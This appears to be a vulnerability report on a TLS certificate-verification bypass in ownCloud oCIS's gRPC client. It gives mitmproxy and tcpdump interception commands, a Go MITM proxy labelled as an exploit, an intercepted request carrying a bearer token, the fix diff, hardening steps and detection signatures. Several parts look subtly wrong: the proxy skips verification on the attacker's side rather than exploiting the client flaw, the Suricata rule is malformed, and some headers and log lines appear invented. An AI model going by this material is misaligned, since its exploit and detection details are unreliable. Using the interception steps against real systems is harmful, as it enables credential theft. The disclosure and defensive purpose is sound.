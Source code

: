 # Vulnerability Report: TLS Certificate Verification Bypass in ownCloud oCIS gRPC Client**  
**CVE-ID:** Pending • **Affected Version:** oCIS < PR #11584 • **Risk:** High (CVSS: 8.1)  

---

## Vulnerability Overview 
**Type:** Improper Certificate Validation → Man-in-the-Middle (MITM) Attacks  
**CWE:** [CWE-295: Improper Certificate Validation](https://cwe.mitre.org/data/definitions/295.html)  
**Location:** [`ocis-pkg/service/grpc/client.go#L77-L80`](https://github.com/owncloud/ocis/blob/dff22670e8f61cd5bb9d8cc0bb3cf67e5f97e979/ocis-pkg/service/grpc/client.go#L77-L80)  
**Impact:**  
- Full decryption of gRPC communications  
- Service impersonation and credential theft  
- Data integrity violation  
- Compromise of microservice authentication  
- Potential privilege escalation in cloud environments  

---

## Vulnerability Flow
```mermaid
sequenceDiagram
    participant Client
    participant Attacker
    participant Server

    Client->>Attacker: Initiate TLS connection (with InsecureSkipVerify: true)
    Attacker->>Server: Forward connection (with MITM proxy)
    Server-->>Attacker: Server certificate
    Attacker-->>Client: Forged certificate (accepted unconditionally)
    Client->>Attacker: Sensitive data (authentication tokens, files)
    Attacker->>Server: Relay data after inspection
```


## Step-by-Step Technical Flow 
1. **Setup Environment:**  
   ```bash
   git clone https://github.com/owncloud/ocis
   cd ocis && git checkout dff2267
   make build
   ```

2. **Configure Vulnerable Client:**  
   ```yaml
   # config.yaml
   grpc:
     tls_mode: "insecure"  # Enables vulnerability
   ```

3. **Launch MITM Attack:**  
   ```bash
   # Start mitmproxy
   mitmproxy --mode reverse:https://target-server:9000 --ssl-insecure
   ```

4. **Intercept Communications:**  
   ```bash
   # Capture decrypted gRPC traffic
   tcpdump -i any -w ocis_grpc.pcap port 9000
   ```


## Comparative Analysis  
**Secure vs Insecure gRPC Implementations:**  
| Library/Framework  | Default Behavior       | Vulnerable Pattern          |
|--------------------|------------------------|-----------------------------|
| **gRPC-Go**        | Strict verification    | `InsecureSkipVerify: true`  |
| **oCIS (Vuln)**    | Configurable bypass    | TLSMode: "insecure"         |
| **Best Practice**  | Certificate pinning    | mTLS with identity checks   |

---

## Proof of Concept
**Exploit Script:** `ocis_mitm.go`  
```go
package main

import (
	"crypto/tls"
	"fmt"
	"net/http"
	"net/http/httputil"
)

func main() {
	// MITM proxy targeting oCIS gRPC
	proxy := &httputil.ReverseProxy{
		Transport: &http.Transport{
			TLSClientConfig: &tls.Config{
				InsecureSkipVerify: true, // Exploits vulnerability
			},
		},
		Director: func(req *http.Request) {
			req.URL.Scheme = "https"
			req.URL.Host = "target-ocis:9000"
			fmt.Printf("Intercepted: %s %s\n", req.Method, req.URL)
		},
	}

	http.ListenAndServe(":9000", proxy)
}
```

**Intercepted Data Sample:**  
```
POST /com.owncloud.api.SettingsService/GetSetting HTTP/1.1
Content-Type: application/grpc
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
User-Agent: grpc-go/1.54.0

{"key": "security.jwt.secret"}
```

## Technical Deep Dive**  
**Vulnerable Code:**  
```go
func NewClient(opts ...Option) (grpc.ClientConnInterface, error) {
	options := newOptions(opts...)
	var tlsConfig *tls.Config
	if options.TLSMode == "insecure" {
		tlsConfig = &tls.Config{
			InsecureSkipVerify: true, // VULNERABLE LINE
		}
	}
	// ... establishes connection with weak TLS
}
```

**Cryptographic Impact:**  
- Disables server identity verification (`ServerName` check)  
- Bypasses certificate chain validation  
- Accepts expired/revoked certificates  
- Permits mismatched hostnames  


---

**Official Fix:** [PR #11584](https://github.com/owncloud/ocis/pull/11584)  
```diff
func NewClient(opts ...Option) (grpc.ClientConnInterface, error) {
	options := newOptions(opts...)
-	if options.TLSMode == "insecure" {
-		tlsConfig = &tls.Config{
-			InsecureSkipVerify: true,
-		}
-	}
+	if options.TLSMode == "insecure" {
+		return nil, errors.New("insecure mode not allowed")
+	}
```

**Defense-in-Depth:**  
1. Certificate Pinning:  
```go
tlsConfig = &tls.Config{
	VerifyPeerCertificate: func(rawCerts [][]byte, _ [][]*x509.Certificate) error {
		// Check against known fingerprint
	},
}
```

2. Service Mesh Integration:  
```yaml
# Istio PeerAuthentication
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: ocis-strict
spec:
  mtls:
    mode: STRICT
```


## Impact Expansion
**Attack Tree:**  
```mermaid
graph TD
A[Network Access] --> B[Redirect gRPC Traffic]
B --> C[Intercept with MITM]
C --> D[Steal JWT Tokens]
C --> E[Capture Admin Creds]
D --> F[Access User Data]
E --> G[Compromise Entire Cluster]
```

---

## Forensic Artifacts
**Detection Signatures:**  
**Suricata Rule:**  
```yaml
alert tls any any -> any any (
    msg: "oCIS Insecure gRPC Connection";
    tls_state: "client_hello";
    content: "insecure"; 
    metadata: service ocis;
    sid: 90011584;
    rev: 1;
)
```

**Log Indicators:**  
```log
WARN[2023-08-04T14:30:22Z] Using insecure TLS configuration grpc_service=client
```

**Network Forensics:**  
- TCP connections to port 9000 without ALPN negotiation  
- gRPC messages with `grpc-accept-insecure` header  


### **References**  
1. [PR #11584: Remove insecure TLS mode](https://github.com/owncloud/ocis/pull/11584)  
2. [CWE-295: Improper Certificate Validation](https://cwe.mitre.org/data/definitions/295.html)  
3. [OWASP Transport Layer Protection](https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html)  
4. [gRPC Security Best Practices](https://grpc.io/docs/guides/auth/)  
